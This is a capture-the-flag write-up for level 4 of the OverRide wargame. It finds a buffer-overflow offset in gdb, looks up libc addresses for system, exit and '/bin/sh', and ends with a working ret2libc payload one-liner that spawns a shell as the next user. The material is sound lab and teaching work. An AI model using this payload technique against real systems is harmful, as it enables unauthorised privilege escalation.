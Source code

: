 # Level 4

This program asks us for some shellcode after a buffer overflow through gets, let's (not) oblige.

The subtility this time is that a lot of the stuff happens in a child process. Let's tell gdb to follow the child:
```shell
(gdb) set follow-fork-mode child
```

Now we'll find the offset of `eip` with our [usual suspect](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).
```shell
(gdb) r < <(echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
Starting program: /home/users/level04/level04 < <(echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
[New process 31421]
child is exiting...
Give me some shellcode, k

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 31421]
0x41326641 in ?? ()
```
Our offset is at 156

Now let's do a ret2libc attack to be contrarians. [Here's a comprehensive explanation of it I've written](https://gist.github.com/selfsigned/0a836f3d98efc512509cc042b449160a)
```shell
(gdb) p system
$1 = {
    <text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {
    <text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) info proc map
process 31421
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
[...]
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
[...]

(gdb) find 0xf7e2c000, 0xf7fd0000 "/bin/sh"
0xf7f897ec
```
Okay, `system -> 0xf7e6aed0` `exit -> 0xf7e5eb70` `"/bin/sh" -> 0xf7f897ec`

```shell
# Padding + system + exit + "/bin/sh"
level04@OverRide:~$ (python -c 'print "B"*156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat) | ./level04 
Give me some shellcode, k
whoami
level05
```
Yeet!

